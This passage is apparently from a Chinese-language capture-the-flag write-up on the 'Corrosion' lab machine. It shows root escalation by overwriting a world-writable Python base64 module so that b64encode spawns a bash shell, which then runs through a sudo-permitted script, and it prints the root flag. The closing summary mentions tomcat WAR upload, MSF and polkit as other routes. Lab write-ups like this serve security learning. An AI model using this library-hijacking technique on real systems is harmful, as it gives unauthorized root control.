 
## 提权 - randy用户

1. 查看权限
    
    ```python
    randy@corrosion:~$ sudo -l
    [sudo] password for randy: 
    Matching Defaults entries for randy on corrosion:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
    User randy may run the following commands on corrosion:
        (root) PASSWD: /usr/bin/python3.8 /home/randy/randombase64.py
    ```
    
2. 查看`/home/randy/randombase64.py` 是否拥有修改权限
    
    ```python
    -rwxr-xr-x  1 root  root   210 Sep 20  2021 randombase64.py
    ```
    
    不能直接写入命令
    
3. 我们知道它使用了base64模块，我们直接去修改base64模块
    
    ```python
    randy@corrosion:~$ ls -al /usr/lib/python3.8/base64.py 
    -rwxrwxrwx 1 root root 20386 Sep 20  2021 /usr/lib/python3.8/base64.py
    ```
    
    刚好也拥有权限，修改文件
    
    ```python
    # nano /usr/lib/python3.8/base64.py
    import os
    ....
    def b64encode(s, altchars=None):
        os.system("/bin/bash")
    ```
    
    需要写在`b64encode` 函数里边是因为它文件（`randombase64.py`）里面调用了该函数
    
4. 执行文件`randombase64.py`
    
    ```python
    randy@corrosion:~$ sudo /usr/bin/python3.8 /home/randy/randombase64.py
    Enter your string: 1
    root@corrosion:/home/randy# 
    ```
    
    获得root用户！！！
    
5. 读取`flag`文件
    
    ```python
    root@corrosion:~# cat root.txt
    2fdbf8d4f894292361d6c72c8e833a4b
    ```
    

## 总结

学到tomcat后台提权方法，其实不止上传war方法，也可以直接使用MSF，不过使用方法是一样的，但是方便

以及提权，我们可以直接使用look来读取root的flag文件的，并且在laye用户也可以使用**`polkit-agent-helper-1`** 来提权的，不过拿到root权限不是更好吗